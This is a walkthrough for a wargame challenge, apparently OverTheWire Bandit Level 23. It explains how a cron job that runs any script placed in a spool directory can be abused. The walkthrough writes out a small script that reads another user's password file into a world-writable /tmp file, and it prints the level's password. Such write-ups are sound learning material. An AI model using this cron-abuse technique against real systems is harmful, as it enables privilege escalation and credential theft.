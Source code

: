 # Bandit Level 23

Again this is another cronjob challenge so we will navigate to the /etc/cron.d directory and look at the cronjob_bandit24 file

We can again inspect the .sh file to give the shellcode:
```sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

here we see that it is running all code in /var/spool/$bandit24 every minite or so

first of all we need to write our own shellscript
It goes as follows:
```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/thisdirisours/passwd
```

after writing this in our tmp directory with the extension .sh we need to set permissions for the file
We want everone to do everything so we can use the command
> chmod 777 ourshellcode.sh

Now we create the file we said to pipe redirect the output of the command to in our shellcode using "touch passwd" which will create our password file

We also need to set the correct permissions on this one also as we need all users to be able to write to it so we use the command:
> chmod 666 passwd

allowing all users to read and write to it

Now we just copy our shellscript into /var/spool/bandit24 and wait

After a certain amount of time you should see our password file now has data in and when opened with the cat command we see the password is: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

